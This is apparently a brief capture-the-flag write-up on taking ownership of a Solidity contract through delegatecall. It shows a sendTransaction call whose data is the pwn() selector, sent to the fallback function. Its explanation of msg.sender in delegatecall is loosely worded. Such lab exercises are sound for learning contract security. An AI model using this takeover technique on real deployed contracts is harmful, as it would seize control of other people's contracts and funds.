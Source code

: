 Delegate call is a special, low level function call intended to invoke functions from another contract.

Here, we need to call the fallback function by passing data as - web3.eth.abi.encodeFunctionSignature("pwn()")
this will call the pwn function in the Delegate contract and our address will be the owner

await sendTransaction({
  from: "0xf9B888aA7CDBD123FA59571a19449C85017ca833",
  to: "0xf8C335eE5a3198550877a543F72dB86443379c5e",
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
})

Also when the delegat call is done, the EOA will be the one who calls the pwn function and not the contract so the msg.sender is actually us. This is not the same for the normal call where the contract becomes the msg.sender.